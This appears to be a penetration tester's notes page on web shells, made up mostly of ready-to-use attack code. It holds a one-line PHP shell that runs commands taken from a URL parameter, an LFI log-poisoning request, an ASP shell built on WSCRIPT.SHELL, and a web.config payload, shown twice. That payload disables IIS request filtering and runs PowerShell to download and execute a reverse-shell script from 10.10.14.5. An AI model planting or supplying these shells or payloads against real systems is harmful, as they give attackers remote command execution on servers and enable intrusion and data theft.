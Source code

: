 

# PHP Web Shell

[GitHub - epinna/weevely3: Weaponized web shell](https://github.com/epinna/weevely3)
## Example shells:

 `<?php system($_GET[‘commandInjection’]); ?>`
`_/var/log/vsftpd.log&commandInjection=ifconfig
## ZIP Wrapper LFI

[[File include#Unzip File]]

# ASPX

[[Windows ASPX]]

## Generic Reverse Shells

```
' -- create the COM objects that we will be using -- ' Set oScript = Server.CreateObject("WSCRIPT.SHELL") Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK") Set oFileSys = Server.CreateObject("Scripting.FileSystemObject") ' -- check for a command that we have posted -- ' szCMD = Request.Form(".CMD") If (szCMD <> "") Then ' -- Use a poor man's pipe ... a temp file -- ' szTempFile = "C:\" & oFileSys.GetTempName( ) Call oScript.Run ("cmd.exe /c " & szCMD & " > " & szTempFile, 0, True) Set oFile = oFileSys.OpenTextFile (szTempFile, 1, False, 0) End If

```

```
<?xml version="1.0" encoding="UTF-8"?> <configuration> <system.webServer> <handlers accessPolicy="Read, Script, Write"> <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" /> </handlers> <security> <requestFiltering> <fileExtensions> <remove fileExtension=".config" /> </fileExtensions> <hiddenSegments> <remove segment="web.config" /> </hiddenSegments> </requestFiltering> </security> </system.webServer> </configuration> <%@ Language=VBScript %> <% call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.5/Invoke-PowerShellTcp.ps1')") %>
```

## Windows Nishang Shell

See [[Windows#Powershell]]

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.5/Invoke-PowerShellTcp.ps1')")
%>
```
